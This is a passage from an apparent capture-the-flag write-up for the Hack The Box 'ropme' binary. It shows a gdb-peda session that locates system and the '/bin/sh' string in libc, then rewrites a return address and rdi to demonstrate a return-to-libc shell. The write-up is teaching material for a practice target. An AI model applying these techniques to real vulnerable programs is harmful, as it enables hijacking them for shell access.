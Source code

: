 ```
gdb-peda$ info proc mappings
process 15772
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x600000           0x601000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x601000           0x602000     0x1000     0x1000 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x602000           0x623000    0x21000        0x0 [heap]
      0x7ffff79e4000     0x7ffff7bcb000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bcb000     0x7ffff7dcb000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcb000     0x7ffff7dcf000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd1000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dd1000     0x7ffff7dd5000     0x4000        0x0
      0x7ffff7dd5000     0x7ffff7dfc000    0x27000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fe0000     0x7ffff7fe2000     0x2000        0x0
      0x7ffff7ff7000     0x7ffff7ffa000     0x3000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x27000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
gdb-peda$ search
search     searchmem  
gdb-peda$ searchmem "/bin/sh" 0x7ffff79e4000     0x7ffff7bcb000
Searching for '/bin/sh' in range: 0x7ffff79e4000 - 0x7ffff7bcb000
Found 1 results, display max 1 items:
libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7a33440 <__libc_system>
```

So the location of `system` is `0x7ffff7a33440`. And `/bin/sh` is located at `0x7ffff7b97e9a`


```
gdb-peda$ set {long long int} 0x7fffffffdf48 = 0x7ffff7a33440
gdb-peda$ set $rdi = 0x7ffff7b97e9a
```
After setting the values, we can check where does gdb think we should return to

```
gdb-peda$ bt
#0  0x000000000040066c in main ()
#1  0x00007ffff7a33440 in ?? () at ../sysdeps/unix/sysv/linux/system.c:75 from /lib/x86_64-linux-gnu/libc.so.6
#2  0x0000000000000000 in ?? ()
```

And what is at that address we're about to return to?


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me